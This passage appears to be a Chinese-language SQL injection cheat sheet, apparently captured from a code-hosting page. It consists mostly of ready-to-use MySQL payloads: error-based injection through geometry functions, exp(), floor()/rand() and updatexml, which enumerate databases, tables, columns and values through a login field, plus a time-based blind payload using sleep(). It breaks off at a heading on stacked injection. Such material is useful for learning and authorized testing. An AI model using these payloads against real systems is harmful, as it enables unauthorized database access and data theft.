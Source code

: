 ~~~sql
geometrycollection()
id=1 and geometrycollection((select * from(select * from(select user())a)b))

multipoint()
id=1 and multipoint((select * from(select * from(select user())a)b))

polygon()
id=1 and polygon((select * from(select * from(select user())a)b))

multipolygon()
id=1 and multipolygon((select * from(select * from(select user())a)b))

linestring()
id=1 and linestring((select * from(select * from(select user())a)b))

multilinestring()
id=1 and multilinestring((select * from(select * from(select user())a)b))

exp()
id=1 and exp(~(select * from(select user())a))
~~~

~~~sql
# floor() 和 rand()
# 利用错误信息得到当前数据库名
union select count(*),2,concat(':',(select database()),':',floor(rand()*2))as a from information_schema.tables group by a
~~~

~~~sql
# 查数据库
admin'or(updatexml(1,concat(0x7e,database(),0x7e),1))#
# 查表明
admin'or(updatexml(1,concat(0x7e,(select(table_name)from(information_schema.tables)where(table_schema)like('库名')),0x7e),1))#
# 查列名
admin'or(updatexml(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name)like('表名')),0x7e),1))#
# 查列值
admin'or(updatexml(1,concat(0x7e,(select(group_concat(字段名,'~',字段名,'~',字段名))from(表名)),0x7e),1))#
~~~



### 延时注入

与布尔盲注类似，但是当页面没有布尔状态时，可以通过观察页面响应时间是否变长来判断输入的条件是否正确

~~~sql
id = 1 and if(length(database())>1, sleep(5),1)
~~~



### 堆叠注入
